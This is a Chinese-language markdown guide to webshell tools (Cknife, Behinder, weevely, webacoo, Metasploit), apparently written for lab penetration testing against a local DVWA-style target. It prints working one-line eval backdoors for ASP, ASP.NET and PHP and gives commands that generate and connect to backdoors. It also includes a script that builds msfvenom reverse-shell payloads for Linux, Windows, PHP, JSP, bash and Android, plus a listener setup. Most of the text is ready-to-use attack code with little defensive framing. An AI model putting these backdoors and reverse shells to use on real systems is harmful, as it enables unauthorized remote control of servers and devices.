# webshell管理工具

## 1 Cknife

一款webshell连接工具，项目地址：https://github.com/Chora10/Cknife

工具启动：

```
/usr/lib/jvm/jdk1.8.0_281/bin/java  -jar Cknife.jar &
```

工具的使用：

常见的一句话后门样例：

```
服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create_function、assert等）

ASP:        
<%eval request("Cknife")%>
　	
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["Cknife"],"unsafe");%>

PHP:        
<?php @eval($_POST['Cknife']);?>
```




## 2 Behinder_v3.0

工具启动：

```
/usr/lib/jvm/jdk1.8.0_281/bin/java  -jar Behinder.jar
```






## 3 behinder_v4.0.5

使用前先生成webshell



随后上传后，使用对应的协议连接即可。




## 4 /usr/share/webshells

在kali的/usr/share/webshells目录中，同样内置了一些webshell可供使用。






## 5 weevely

Weevely是一款使用python编写的webshell工具，集webshell生成和连接于一身，采用c/s模式构建，可以算作是linux下的一款php菜刀替代工具，具有很好的隐蔽性。



```
weevely generate 12345 /root/fsec.php
weevely http://192.168.0.104/hackable/uploads/fsec.php 12345
```




## 6 webacoo

*webacoo*是使用Perl语言编写的Web后门工具。

```
Options:
  -g		Generate backdoor code (-o is required)
  -f FUNCTION	PHP System function to use
	FUNCTION
		1: system 	(default)
		2: shell_exec
		3: exec
		4: passthru
		5: popen
  -o OUTPUT	Generated backdoor output filename
  -r 		Return un-obfuscated backdoor code
  -t		Establish remote "terminal" connection (-u is required)
  -u URL	Backdoor URL
  -e CMD	Single command execution mode (-t and -u are required)
  -m METHOD	HTTP method to be used (default is GET)
  -c C_NAME	Cookie name (default: "M-cookie")
  -d DELIM	Delimiter (default: New random for each request)
  -a AGENT	HTTP header user-agent (default exist)
  -p PROXY	Use proxy (tor, ip:port or user:pass:ip:port)
  -v LEVEL	Verbose level
	LEVEL
		0: no additional info (default)
		1: print HTTP headers
		2: print HTTP headers + data
  -l LOG	Log activity to file
  -h		Display help and exit
  update	Check for updates and apply if any
```

```
webacoo -g -f 1 -o webacoo.php
webacoo -t -u http://192.168.0.104/hackable/uploads/webacoo.php
```




## 7 metasploit

将如下脚本复制于kaili中，运行后即可创建多类型的脚本。

```
#!/bin/bash
echo "pls input your IP ADDRESS"
read ip
rm -rf shell*
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f elf > shell64.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f exe > shell64.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=80 -f raw >shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=4444 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=4444 -f war > shell.war
msfvenom -p cmd/unix/reverse_bash LHOST=$ip LPORT=4444 -f raw > shell.sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 R > shell.apk
```



PHP的shell需要编辑下去除注释才能使用。

```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 80
exploit
```




